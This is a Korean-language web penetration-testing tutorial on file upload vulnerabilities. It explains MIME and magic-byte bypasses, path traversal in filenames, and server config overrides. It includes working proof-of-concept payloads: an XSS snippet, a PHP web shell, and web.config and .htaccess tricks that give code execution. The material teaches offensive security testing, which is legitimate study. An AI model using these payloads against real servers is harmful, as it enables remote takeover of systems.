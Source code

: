 ```yaml
---
title: File Upload Vulnerability
layout: default
parent: Web Penetration Test
nav_order: 2.5
description: "Web hacking"
---
```


# File Upload Vulnerability (파일 업로드 취약점)

{: .no_toc }

## Table of Contents
{: .no_toc .text-delta }

1. TOC
{:toc}

## What is file upload vulnerability (파일 업로드 취약점이란)

파일 업로드 취약점이란, 웹 서버에서 사용자가 파일을 업로드할때, 파일의 이름, 타입, 내용, 사이즈 등 다양한 정보들을 점검을 안하고 서버에 저장을 할때, 업로드 취약점이 발생 합니다.

웹서버에서 보통 위험한 파일 타입, 속성들을 막지만 이러한 설정을 똑바로 하지않으면 타입 같은경우, 여러 파일타입을 같이 넣어서 웹서버에 혼동을 줄수도 있고, 속성 같은경우, 웹 프록시로 수정하여 우회 할수도 있을것 입니다. 

## What is the impact of file upload vulnerablity (파일 업로드 취약점의 임팩트)

서버가 마비되거나, Remote Command Execution (RCE), 파일 업로드를 트로이젠으로 쓴다거나, 등 같은 다양한 크리티컬한 취약점을 발생 시킬수 있습니다. 

## How web servers handle request for static files (웹 서버에서 Static File의 대한 핸들링)

- Non Executable File (실행이 불가능한 파일): 웹 서버에서 파일 컨텐츠를 HTTP Resposne로 그냥 보낼수 있습니다. 이러한 경우, 웹 서버에서 해당 파일을 읽게되는 경우 Stored XSS 취약점이 발생 할 수 있습니다.


{: .important-title }
> Proof of Concept
> {: .label .label-blue }
>```
><html>
><script>alert("NO FILTER?")
></html>
>```

- Executable File (실행이 가능한 파일): 웹 서버에서 해당 파일 컨텐츠를 실행이 가능하게 시켰을 경우, 서버는 스크립트를 실행하기 전에 HTTP 요청의 헤더와 파라미터를 기반으로 변수를 할당합니다. 그 결과로 생성된 출력물은 HTTP 응답으로 클라이언트에게 전송 될수 있습니다.

{: .important-title }
> Proof of Concept
> {: .label .label-blue }
>```
><?php echo system($_GET['cmd']); ?>
>```

위의 POC경우, `?cmd=` 파라미터로 해당 코드를 실행 할수 있을것 입니다.

- Executable File (실행이 가능한 파일): 웹 서버에서 파일을 실행하도록 설정이 안되어 있다면, 일반적으로 Error로 응답합니다. 하지만 경우에 따라서 파일이 Plain Text로 클라이언트에게 그대로 전송되게 할수 있습니다.


## Bypassing file type validation (파일 타입 우회)

보통 파일 업로드를 진행을 할때, `Content-Type` 헤더가 들어갑니다. 이러한 헤더는 웹 서버에게 "MIME" 타입을 알려주는 역할을 하게 됩니다. 그러면 웹서버가 `Content-Type` 헤더를 보고 예측되는 "MIME" 타입이 맞게 되면 파일 업로드를 허용합니다.

허나 문제가 발생하는 경우는 웹서버가 파일의 실제 내용을 점검을 안하고 오로지 "MIME" 타입과 `Content-Type` 매칭을 보고 판단을 할경우 `Content-Type`을 바꿔서 해당 필터링을 우회 할 수 있습니다. 

{: .important-title }
> Proof of Concept
> {: .label .label-blue }
>```
>Content-Type: image/jpeg 
>```

### Magic Byte bypass (매직바이트 우회)

Magic Byte(매직 바이트)는 File Signature처럼 앞에 처음 몇몇 바이트가 파일타입을 인식하는데 쓰이는것을 의미합니다.

매직바이트를 확인할려면 다음과 같은 명령어를 써볼수 있습니다.

```
file website.jpg # 파일 타입 확인 명령어
xxd website.jpg | head # 헥스데이터 명령어
```

여러 매직바이트들이 파일타입들에 따라 존재하게 되는데 다음과 같이 `.txt`파일을 `GIF87a`라는 매직바이트를 앞에 넣어서 사진파일로 인식시킬수 있습니다.

```
echo -n -e 'GIF87a' > file.txt
```
## File Upload from in user accessible directory (파일 업로드 위치 우회)

웹서버에서 악성파일 업로드를 성공적으로 업로드를 했다 하여도, 여러 문제점들이 아직 남아있을수 있습니다.

1. 업로드한 파일이 실행이 가능한가?
2. 업로드한 파일의 PATH를 아는가?

이러한 것들을 확인하기 위해서는 확실히 알아야될 것은 업로드가 되는 파일의 PATH를 알아야된다는 것입니다.

이러한 우회로 파일업로드를 할때, `filename` 에서 Path Traversal 공격을 시도해 볼수 있습니다. 

```
Content-Disposition: form-data; name="avatar"; filename="../../../../../../../wwwroot/exploit.php"
```
웹사이트를 돌아다니면서 찾은 PATH들로 Path Traversal공격을 시도할수 있을것 입니다.

## Overriding the Server Configuration (서버 설정 파일을 업로드해서 우회)

앞서 말했다 싶이 웹 서버는 해당 파일을 실행하게 설정이 되지 않는이상 파일을 실행시키진 않습니다. 예를들어서 아파치 서버에 `.php` 파일을 사용자의 요청에 따라 실행하고 싶을 경우 `/etc/apache2/apache2.conf` 파일에 다음과 같은 설정을 했을것입니다.

```
LoadModule php_module /usr/lib/apache2/modules/libphp.so
    AddType application/x-httpd-php .php
```

이러한 설정 파일 같이 여러 config파일들을 업로드해서 웹서버가 파일을 실행시키거나 config 파일 자체에서 악성 코드를 실행 시킬수 있게도 할 수 있습니다.

### web.config RCE

**Proof of Concept:**

```asp.net
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
' it is running the ASP code if you can see 3 by opening the web.config file!
Dim oShell, sCommand
sCommand = ""
Set oShell = Server.CreateObject("WScript.Shell")
oShell.Run sCommand, , True
Set oShell = Nothing
Response.write("<!-"&"-")
%>
-->
```
### .htaccess RCE 

`.htaccess` 는 아파치 웹 서버 디렉토리를 설정하는 기본적인 파일입니다. 만약 웹서버에 `.htaccess`를 Override 할 수 있다면, 다음과 같은 공격들을 수행 할수 있습니다.

1. `AddType application/x-httpd-php .txt`를 `.htaccess` 파일을 올려 덮어씌운다음 `webshell.txt`등으로 `txt`파일을 업로드 하였지만 php로 실행시킬수 있을것 입니다.

2. `php_flag engine off`를 사용할 경우, 엔진을 종료시켜 php코드가 유출이 됩니다.

## Reference
1. https://kangsecu.tistory.com/99
